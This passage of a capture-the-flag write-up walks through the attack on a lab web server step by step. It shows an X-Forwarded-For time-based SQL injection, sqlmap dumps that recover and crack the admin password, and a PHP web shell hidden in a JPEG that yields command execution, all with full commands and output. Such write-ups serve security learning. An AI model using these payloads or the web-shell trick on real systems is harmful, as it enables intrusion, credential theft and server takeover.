+ [001387] /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP Easter Egg reveals potentially sensitive information via HTTP requests that contain specific QUERY strings. See: https://labs.detectify.com/writeups/do-you-dare-to-show-your-php-easter-egg/
```

What initially calls my attention is the possible vulnerability found by Nikto to change the admin password with the request:

```text
/admin/login.php?action=insert&username=test&password=test: phpAuction may allow user admin accounts to
be inserted without proper authentication. Attempt to log in with user 'test' password 'test' to verify.
```

I find this very appealing and try it myself with `curl` in my terminal, but unfortunately it simply does not work.

The missing security headers are also something to keep in mind and explore, since a possible SQL injection can be done using HTTP packet headers.

After that, I try some more reconnaissance commands to get more information about the target with packages like `curl -i -s`.

```bash
curl -i -s "http://10.0.0.27/index.php?-s" | head -n 40
curl -i -s "http://10.0.0.27/cat.php?-s" | head -n 40
curl -i -s "http://10.0.0.27/admin/login.php?-s" | head -n 40
curl -i -s "http://10.0.0.27/admin/index.php?-s" | head -n 40
```

```text
HTTP/1.1 200 OK
Server: nginx/0.7.67
Date: Tue, 16 Dec 2025 21:33:25 GMT
Content-Type: text/html
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/5.3.3-7+squeeze15
```

After that, I also analyzed the HTML pages from the login to see if there was anything worthy of my attention.

But no, there is nothing helpful that I could find. So I run feroxbuster below on the `classes` directory.

```bash
feroxbuster -u http://10.0.0.27/classes/ \
 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt \
 -x php -C 404,403,301 -t 40 --dont-filter
```

```text
┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza]
└─$ feroxbuster -u http://10.0.0.27/classes/ \
 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt \
 -x php -C 404,403,301 -t 40 --dont-filter

___  ___  __   __     __      __        __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                ver: 2.13.1
───────────────────────────┬──────────────────────
🎯  Target Url            │ http://10.0.0.27/classes
🚩  In-Scope Url          │ 10.0.0.27
🚀  Threads               │ 40
📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
💢  Status Code Filters   │ [404, 403, 301]
💥  Timeout (secs)        │ 7
🦡  User-Agent            │ feroxbuster/2.13.1
💉  Config File           │ /etc/feroxbuster/ferox-config.toml
🔎  Extract Links         │ true
💲  Extensions            │ [php]
🏁  HTTP methods          │ [GET]
🤪  Filter Wildcards      │ false
🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
302      GET        0l        0w        0c http://10.0.0.27/classes/auth.php => http://10.0.0.27/admin/login.php
200      GET        0l        0w        0c http://10.0.0.27/classes/user.php
200      GET        0l        0w        0c http://10.0.0.27/classes/picture.php
200      GET        0l        0w        0c http://10.0.0.27/classes/stats.php
200      GET        0l        0w        0c http://10.0.0.27/classes/db.php
200      GET        0l        0w        0c http://10.0.0.27/classes/category.php
[####################] - 65s    34260/34260   0s      found:6       errors:0
[####################] - 65s    34260/34260   529/s   http://10.0.0.27/classes/
```

We get a lot more directories, and we can see some table names. After running some curls, I saw that it was not possible to consult this content manually, but it made me realize that maybe the main attack vector was SQL injection.

But not just any kind of SQL injection: a blind time-based SQL injection. So I decided to use the `X-Forwarded-For` field in HTTP to send some SQL commands. The commands are shown below.

```bash
curl -s -o /dev/null -w "normal: %{time_total}\n" \
 -H "X-Forwarded-For: pedro$(date +%s)" \
 "http://10.0.0.27/"
```

```text
normal: 0.523834
```

```bash
curl -s -o /dev/null -w "sleep: %{time_total}\n" \
 -H "X-Forwarded-For: pedro$(date +%s)' or sleep(5) and '1'='1" \
 "http://10.0.0.27/"
```

```text
sleep: 15.166626
```

```bash
cat > xff.req <<'EOF'
GET / HTTP/1.1
Host: 10.0.0.27
User-Agent: Mozilla/5.0
Accept: */*

X-Forwarded-For: 127.0.0.1*
Connection: close
EOF
```

And bingo, as shown below with `sleep`, we got our vulnerability confirmed.

Figure 14 — Time-based SQL injection confirmed through `X-Forwarded-For`.



## 7. Dumping the Database

I started to automate the tests with sqlmap, but the WAF of the application was so aggressive that it made the site go down several times.

After every `404 Not Found` error, I had to initialize the machine again manually. By doing this, I realized that maybe I should try another tool that could be quicker and more recent than SQLMap, since the WAF was being very restrictive. So, to dump the database names, I used Ghuari.

```bash
sqlmap -r xff.req \
 --batch \
 --level=5 \
 --risk=3 \
 --technique=T \
 --time-sec=5 \
 --dbms=mysql \
 --flush-session \
 --dbs
```

```text
┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza/ghauri/ghauri]
└─$ sqlmap -r xff.req \
 --batch \
 --level=5 \
 --risk=3 \
 --technique=T \
 --time-sec=5 \
 --dbms=mysql \
 --flush-session \
 --dbs
       ___
      __H__
___ ___[,]_____ ___ ___  {1.10.6#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
     |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end
user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are
not responsible for any misuse or damage caused by this program

[*] starting @ 21:06:11 /2026-06-20/

[21:06:11] [INFO] parsing HTTP request from 'xff.req'
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[21:06:11] [INFO] flushing session file
[21:06:11] [INFO] testing connection to the target URL
[21:06:12] [INFO] checking if the target is protected by some kind of WAF/IPS
[21:06:12] [WARNING] heuristic (basic) test shows that (custom) HEADER parameter 'X-Forwarded-For #1*' might not be injectable
[21:06:12] [INFO] testing for SQL injection on (custom) HEADER parameter 'X-Forwarded-For #1*'
[21:06:12] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[21:06:12] [WARNING] time-based comparison requires larger statistical model, please wait............................ (done)
[21:06:35] [INFO] (custom) HEADER parameter 'X-Forwarded-For #1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[21:06:35] [INFO] checking if the injection point on (custom) HEADER parameter 'X-Forwarded-For #1*' is a false positive
(custom) HEADER parameter 'X-Forwarded-For #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 64 HTTP(s) requests:
---
Parameter: X-Forwarded-For #1* ((custom) HEADER)
   Type: time-based blind
   Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
   Payload: 127.0.0.1' AND (SELECT 1305 FROM (SELECT(SLEEP(5)))HDdj)-- QNJv
---
[21:08:28] [INFO] the back-end DBMS is MySQL
[21:08:28] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
web application technology: Nginx 0.7.67, PHP 5.3.3
back-end DBMS: MySQL >= 5.0.12
[21:08:28] [INFO] fetching database names
[21:08:28] [INFO] fetching number of databases
[21:08:28] [INFO] retrieved: 2
[21:08:49] [INFO] retrieved: information_schema
[21:18:31] [INFO] retrieved: photoblog
available databases [2]:
[*] information_schema
[*] photoblog

[21:24:28] [INFO] fetched data logged to text files under '/home/mr_blue/.local/share/sqlmap/output/10.0.0.27'

[*] ending @ 21:24:28 /2026-06-20/
```

We get the names of the two databases, `photoblog` and `information_schema`, which is great. `information_schema` is a default MySQL database, so obviously we try to extract the tables from the non-default one: `photoblog`.

```bash
sqlmap -r xff.req \
 --batch \
 --level=5 \
 --risk=3 \
 --technique=T \
 --time-sec=5 \
 --dbms=mysql \
 -D photoblog \
 --tables
```

```text
┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza/ghauri/ghauri]
└─$ sqlmap -r xff.req \
 --batch \
 --level=5 \
 --risk=3 \
 --technique=T \
 --time-sec=5 \
 --dbms=mysql \
 -D photoblog\
 --tables
       ___
      __H__
___ ___[)]_____ ___ ___  {1.10.6#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
     |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end
user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are
not responsible for any misuse or damage caused by this program

[*] starting @ 21:28:34 /2026-06-20/

[21:28:34] [INFO] parsing HTTP request from 'xff.req'
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[21:28:34] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: X-Forwarded-For #1* ((custom) HEADER)
   Type: time-based blind
   Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
   Payload: 127.0.0.1' AND (SELECT 1305 FROM (SELECT(SLEEP(5)))HDdj)-- QNJv
---
[21:28:34] [INFO] testing MySQL
[21:28:47] [INFO] confirming MySQL
[21:28:47] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[21:29:07] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 0.7.67, PHP 5.3.3
back-end DBMS: MySQL >= 5.0.0
[21:29:07] [INFO] fetching tables for database: 'photoblog'
[21:29:07] [INFO] fetching number of tables for database 'photoblog'
[21:29:07] [INFO] retrieved: 4
[21:29:48] [INFO] retrieved: categor
[21:33:45] [ERROR] invalid character detected. retrying..
ies
[21:34:57] [INFO] retrieved: pi
[21:36:51] [ERROR] invalid character detected. retrying..
ctu
[21:38:55] [ERROR] invalid character detected. retrying..
res
[21:40:17] [INFO] retrieved: stats
[21:43:00] [INFO] retrieved: users
Database: photoblog
[4 tables]
+------------+
| categories |
| pictures   |
| stats      |
| users      |
+------------+

[21:45:34] [INFO] fetched data logged to text files under '/home/mr_blue/.local/share/sqlmap/output/10.0.0.27'

[*] ending @ 21:45:34 /2026-06-20/
```

After that, we get the four tables: `categories`, `pictures`, `stats`, and `users`. After that, it was necessary to dump the columns, so only after that could we get the content.

```bash
sqlmap -r xff.req \
 --batch \
 --level=5 \
  --technique=T \
 --time-sec=5 \
 --dbms=mysql \
 -T users \
 --columns
```

```text
┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza/ghauri/ghauri]
└─$ sqlmap -r xff.req \
 --batch \
 --level=5 \
  --technique=T \
 --time-sec=5 \
 --dbms=mysql \
 -T users \
 --columns
       ___
      __H__
___ ___[,]_____ ___ ___  {1.10.6#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
     |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end
user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are
not responsible for any misuse or damage caused by this program

[*] starting @ 21:46:56 /2026-06-20/

[21:46:56] [INFO] parsing HTTP request from 'xff.req'
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[21:46:56] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: X-Forwarded-For #1* ((custom) HEADER)
   Type: time-based blind
   Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
   Payload: 127.0.0.1' AND (SELECT 1305 FROM (SELECT(SLEEP(5)))HDdj)-- QNJv
---
[21:46:56] [INFO] testing MySQL
[21:46:56] [INFO] confirming MySQL
[21:46:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.3.3, Nginx 0.7.67
back-end DBMS: MySQL >= 5.0.0
[21:46:56] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) columns
[21:46:56] [INFO] fetching current database
[21:46:56] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[21:47:09] [WARNING] it is very important to not stress the network connection during usage of time-based payloads
to prevent potential disruptions
photoblog
[21:51:03] [INFO] fetching columns for table 'users' in database 'photoblog'
[21:51:03] [INFO] retrieved: 3
[21:51:16] [INFO] retrieved: id
[21:51:42] [INFO] retrieved: m
[21:52:12] [ERROR] invalid character detected. retrying..
ediumint(9)
[21:54:44] [INFO] retrieved: login
[21:55:59] [INFO] retrieved: varchar(50)
[21:58:18] [INFO] retrieved: password
[22:00:11] [INFO] retrieved: varchar(50)
Database: photoblog
Table: users
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | mediumint(9) |
| login    | varchar(50)  |
| password | varchar(50)  |
+----------+--------------+

[22:02:30] [INFO] fetched data logged to text files under '/home/mr_blue/.local/share/sqlmap/output/10.0.0.27'

[*] ending @ 22:02:30 /2026-06-20/
```

And we got the column names!

Figure 15 — Column dump evidence.


Figure 16 — Column dump evidence.


Figure 17 — Column dump evidence.



Now I run the command below to dump `id`, `login`, and `password`, so we can access the admin page on the site.

```bash
sqlmap -r xff.req \
 --batch \
 --technique=T \
 --time-sec=2 \
 --dbms=mysql \
 -D photoblog \
 -T users \
 -C id,login,password \
 --dump
```

```text
┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza/ghauri/ghauri]
└─$ sqlmap -r xff.req \
 --batch \
 --technique=T \
 --time-sec=2 \
 --dbms=mysql \
 -D photoblog \
 -T users \
 -C id,login,password \
 --dump
       ___
      __H__
___ ___[,]_____ ___ ___  {1.10.6#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
     |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end
user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are
not responsible for any misuse or damage caused by this program

[*] starting @ 22:03:54 /2026-06-20/

[22:03:54] [INFO] parsing HTTP request from 'xff.req'
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[22:03:54] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: X-Forwarded-For #1* ((custom) HEADER)
   Type: time-based blind
   Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
   Payload: 127.0.0.1' AND (SELECT 1305 FROM (SELECT(SLEEP(2)))HDdj)-- QNJv
---
[22:03:54] [INFO] testing MySQL
[22:03:54] [INFO] confirming MySQL
[22:03:54] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 0.7.67, PHP 5.3.3
back-end DBMS: MySQL >= 5.0.0
[22:03:54] [INFO] fetching entries of column(s) 'id,login,password' for table 'users' in database 'photoblog'
[22:03:54] [INFO] fetching number of column(s) 'id,login,password' entries for table 'users' in database 'photoblog'
[22:03:54] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[22:04:01] [WARNING] it is very important to not stress the network connection during usage of time-based payloads
to prevent potential disruptions
1
[22:04:06] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
1
[22:04:17] [INFO] retrieved: admin
[22:05:16] [INFO] retrieved: 8efe310f9ab3efeae8d410a8e0166eb2
[22:12:39] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[22:12:39] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[22:12:39] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[22:12:39] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[22:12:39] [INFO] starting 4 processes
[22:12:43] [INFO] cracked password 'P4ssw0rd' for user 'admin'
Database: photoblog
Table: users
[1 entry]
+----+-------+---------------------------------------------+
| id | login | password                                    |
+----+-------+---------------------------------------------+
| 1  | admin | 8efe310f9ab3efeae8d410a8e0166eb2 (P4ssw0rd) |
+----+-------+---------------------------------------------+

[22:13:02] [INFO] table 'photoblog.users' dumped to CSV file '/home/mr_blue/.local/share/sqlmap/output/10.0.0.27/dump/photoblog/users.csv'
[22:13:02] [INFO] fetched data logged to text files under '/home/mr_blue/.local/share/sqlmap/output/10.0.0.27'

[*] ending @ 22:13:02 /2026-06-20/
```

We got the admin credentials. Awesome. Now we use this to access the login page from the beginning.

## 8. Admin Upload and RCE

Before the admin panel, I prepared a small image payload and tested where uploads were saved.

```bash
convert -size 1x1 xc:white shell.jpg
echo '<?php system($_GET["cmd"]); ?>' >> shell.jpg
file shell.jpg
```

```text
┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza]
└─$ convert -size 1x1 xc:white shell.jpg
echo '<?php system($_GET["cmd"]); ?>' >> shell.jpg
file shell.jpg
shell.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 1x1, components 1

┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza]
└─$ curl -i "http://10.0.0.27/admin/uploads/shell.jpg"
HTTP/1.1 404 Not Found
Server: nginx/0.7.67
Date: Tue, 16 Dec 2025 22:29:36 GMT
Content-Type: text/html
Content-Length: 169
Connection: keep-alive

<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/0.7.67</center>
</body>
</html>

┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza]
└─$ curl -i "http://10.0.0.27/admin/uploads/image"
HTTP/1.1 404 Not Found
Server: nginx/0.7.67
Date: Tue, 16 Dec 2025 22:30:22 GMT
Content-Type: text/html
Content-Length: 169
Connection: keep-alive

<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/0.7.67</center>
</body>
</html>

┌──(mr_blue㉿mrbluemachine)-[~/Área de Trabalho/psouza]
└─$ curl -s "http://10.0.0.27/show.php?id=4" | grep -iE "img|src|uploads|image"
       <h2 class="title">Picture: image</h2>
                 </div>
```

Figure 18 — Uploaded image reference discovered through `show.php?id=4`.



Figure 19 — Accessing the administrator area.



After that, I used the credentials to access the administrator page.

And voilà! Here we are... landed in the administrator upload part. Here we can see the files already uploaded. It is time to do a reverse shell upload.

Figure 20 — Administrator upload area.



I was expecting some filtering because I simply knew there would be one, so I tried some basic bypasses like changing the extension of the file.

Changing the file type, trying a double extension bypass, and nothing.

Just a digital wall. So I realized that maybe I should try some more sophisticated methods, like hiding the payload in an actual image with a magic trick. I ran:

```bash
convert -size 1x1 xc:white shell.jpg
echo '<?php system($_GET["cmd"]); ?>' >> shell.jpg
file shell.jpg
```

After that, I saw the image was saved on the site as `1765924167.jpg`. So I ran `nc -lvnp 4444` in my terminal, and in another window I ran `curl` to trigger the reverse shell, as shown below.

```bash
curl -s "http://10.0.0.27/admin/uploads/1765924167.jpg?cmd=id" | strings
```

```text
JFIF
<?php system($_GET["cmd"]); ?>
```

```bash
curl --path-as-is -s "http://10.0.0.27/admin/uploads/1765924167.jpg/test.php?cmd=id" | strings
```

```text
JFIF
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Figure 21 — RCE command output.



Figure 22 — Shell/listener evidence.



Figure 23 — System enumeration after RCE.



BINGO! We are in. I do a basic reconnaissance about privileges, permissions and some files on the system, and we see the pages that we saw before with the feroxbuster tool.

After that, I first go to the root directory and see there is nothing there. So I run some commands to see where the flag is supposed to be.

Figure 24 — Searching for the flag.



We find there is a file called `flag.txt` in the user folder, so we go there, run `cat`, and...

Figure 25 — Reading the flag.



Figure 26 — Final flag evidence.



GAME OVER!

The hardest part of this challenge was to find the vulnerability vector and deal with the WAF that kept taking down the site whenever it wanted.
